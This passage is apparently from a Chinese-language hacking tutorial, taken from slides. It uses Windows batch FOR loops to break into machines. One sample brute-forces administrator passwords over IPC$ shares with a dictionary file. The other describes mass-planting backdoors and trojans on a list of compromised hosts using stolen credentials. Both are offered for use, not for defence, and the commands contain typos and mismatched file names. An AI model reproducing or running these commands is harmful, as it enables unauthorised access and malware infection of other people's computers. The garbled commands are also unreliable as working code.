

sample2：
 
 
 
利用For命令來實現對一台目標Win2k主機的暴力密碼破解。
 
我們用net use \\ip\ipc$ \password\ /u:\administrator\來嘗試這和目標主機進行連接
 
，當成功時記下密碼。
 
最主要的命令是一條：for /f i% in (dict.txt) do net use \\ip\ipc$ \i%\ /u:\administrator\
 
用i%來表示admin的密碼，在dict.txt中這個取i%的值用net use 命令來連接。然後將程序運行結果傳遞給find命令－－
 
for /f i%% in (dict.txt) do net use \\ip\ipc$ \i%%\ /u:\administrator\|find \:命令成功完成\>>D:\ok.txt ，這樣就ko了。
 
 
 
 
sample3：
 
 
 
你有沒有過手裡有大量肉雞等著你去種後門＋木馬呢？，當數量特別多的時候，原本很開心
 
的一件事都會變得很鬱悶：）。文章開頭就談到使用批處理文件，可以簡化日常或重複性任
 
務。那麼如何實現呢？呵呵，看下去你就會明白了。
 
 
 
主要命令也只有一條：（在批處理文件中使用 FOR 命令時，指定變量使用 %%variable）
 
@for /f \tokens=1,2,3 delims= \ %%i in (victim.txt) do start call door.bat %%i %
 
%j %%k
 
tokens的用法請參見上面的sample1，在這裡它表示按順序將victim.txt中的內容傳遞給doo
 
r.bat中的參數%i %j %k。
 
而cultivate.bat無非就是用net use命令來建立IPC$連接，並copy木馬＋後門到victim，然
 
後用返回碼（If errorlever =）來篩選成功種植後門的主機，並echo出來，或者echo到指
 
定的文件。
 
delims= 表示vivtim.txt中的內容是一空格來分隔的。我想看到這裡你也一定明白這victim
 
..txt裡的內容是什麼樣的了。應該根據%%i %%j %%k表示的對象來排列，一般就是 ip passw
 
ord username。